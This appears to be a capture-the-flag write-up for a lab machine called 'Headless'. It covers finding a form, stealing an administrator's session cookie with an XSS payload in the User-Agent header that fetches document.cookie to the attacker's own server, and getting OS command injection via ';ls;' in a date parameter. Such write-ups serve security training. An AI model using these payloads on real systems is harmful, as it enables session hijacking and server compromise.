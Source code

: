 Support page with input fields caught my interest, so, I started testing the input fields manually.
- First tried for SQL injection, I gave single quote(') and double quotes(") as input to every input fields, but there was no any suspicious response.
- Then I tried for XSS. I gave `<XSS>` (word XSS wrapped in angular bracket) as input and I got a suspisious looking message, which means the app is vulnerable to XSS.
    - ![suspicious message](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/sus_response.jpg)

The message said that hacking attemp was detected so a report with my browser information was sent to administrator. 

### Building strategy
Now it's time to build some strategy. Here our browser information is being sent to administrator, and our browser information is stored in User-Agent header. So, if we set/embed our payload in User-Agent header by using burpsuite, our payload is gonna reach the administrator. 

But what will we do after reaching to administrator?

Absolutely right, we are not able to fetch dashboard page because our cookie is set with some "user" parameter value. If we fetch the cookie of administrator and did some cookie tampering in dashbord page, we migh be able to get the dashboard page.

## Exploitation

First I started a http server using command `python -m httpserver`. It started a server on my ip on port 8000. I intercepted the request using burp and edited the User-Agent header with my payload:
```html
<!-- payload -->
<svg onload='fetch("http://my_ip:port/" + document.cookie)>
```
and sent the request. Within 5-6 seconds I recieved message with admin's cookie in my terminal.
![obtaining admin cookie](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/obtaining_cookie.jpg)

Now, using the admin cookie lets try to access the dashboard page and Voilà we got the administrator dashboard.
![accessed administrator dashboard](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/accessed_dashboard.jpg)

Here we have option to generate report from the dashboard. Let's generate the report and intercept the request.
![generating report](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/generate_report.jpg)

Date parameter is sent using post request. So there could be the possibility of OS command injection if inputs are not validated properly.
- first attemp, I concatenated the date parameter with `;ls` but didnot get expected result.
- second try, then  I modified my payload as `;ls;` then I got the output exactly what I wished for 😍.
![command injection worked!](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/command_injection.jpg)


-----------------
from here You can easily grab the user flag by just exploring the file system and trying some different directories.
![exploring files](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/exploring_files.jpg)
